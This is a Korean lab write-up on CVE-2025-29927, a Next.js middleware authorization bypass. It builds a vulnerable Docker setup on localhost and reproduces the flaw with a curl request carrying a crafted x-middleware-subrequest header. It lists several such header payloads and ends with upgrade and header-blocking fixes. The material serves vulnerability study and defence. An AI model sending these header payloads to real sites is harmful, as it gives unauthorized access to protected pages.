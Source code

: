 # Next.js Middleware Authorization Bypass (CVE-2025-29927)
> 화이트햇스쿨 3기 17반 박민영

## 1. Next.js 미들웨어 인증 우회 취약점이란?
이 취약점은 Next.js 웹 프레임워크에서 발생하는 보안 취약점으로, 공격자가 미들웨어 기반의 인증 절차를 우회하여 시스템에 접근할 수 있게 한다.
공격자는 특정 값을 가진 `x-middleware-subrequest` 헤더를 추가함으로써 미들웨어를 우회할 수 있으며, 이를 통해 인증되지 않은 사용자가 인증이 필요한 페이지에 무단으로 접속하여 공격할 수 있다. 

### 공격 예시
프레임워크의 버전에 따라 아래와 같은 값을 요청에 추가하면 미들웨어를 우회할 수 있다.</br>
`x-middleware-subrequest: pages/_middleware`</br>
`x-middleware-subrequest: middleware`</br>
`x-middleware-subrequest: src/middleware`</br>
`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`</br>

## 2. 취약한 환경 구성
1. `docker compose up -d` 명령어로 Next.js 15.2.2 버전의 컨테이너를 시작한다.
![image](https://github.com/user-attachments/assets/cb593947-95c8-409a-a8fe-14a060a002b9)

2. `docker ps` 명령어로 실행 중인 컨테이너 목록을 확인한다.
![image](https://github.com/user-attachments/assets/3a299e89-c961-4c5e-95dd-bc635b6f3285)

3. 애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션된다.</br>
![image](https://github.com/user-attachments/assets/3c800e3f-83be-4bee-bdbb-ad36c1a634d1)

 `admin/password`를 입력하여 로그인하면 대시보드에 접근할 수 있다.
   ![image](https://github.com/user-attachments/assets/a1c21614-a455-49cc-b57d-417ff6902541)
   
## 3. 취약점 재현
- 인증 과정 없이 대시보드에 접근하려고 하면 로그인 페이지로 리디렉션된다.

```bash
curl -i http://localhost:3000
```

![image](https://github.com/user-attachments/assets/d3cd332d-90de-4321-82cb-0ea673eef2a9)

- http 요청에 `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` 값을 추가하면 미들웨어를 우회하여, 인증 없이 대시보드에 접근할 수 있다.

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```

  ![image](https://github.com/user-attachments/assets/5708f8fc-7299-4806-aeb0-8f9a093c769f)

## 4. 취약점 대처 방안
해당 취약점이 수정된 버전으로 업그레이드하여 사용하여야 한다.
- Next.js 15.x → 15.2.3
- Next.js 14.x → 14.2.25
  
업그레이드하지 못하거나 아래의 버전의 경우 `x-middleware-subrequest` 헤더가 포함된 외부 요청이 애플리케이션에 도달하지 못하도록 해당 헤더를 제거하거나 차단하도록 구성하여야 한다.
- Next.js 11.1.4~13.5.6 

## 5. 참고자료
[vulhub/next.js/CVE-2025-29927(영어)
](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)</br>
[vulhub/next.js/CVE-2025-29927(중국어)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)</br>
[CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)</br>
[Next.js and the corrupt middleware: the authorizing artifact](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
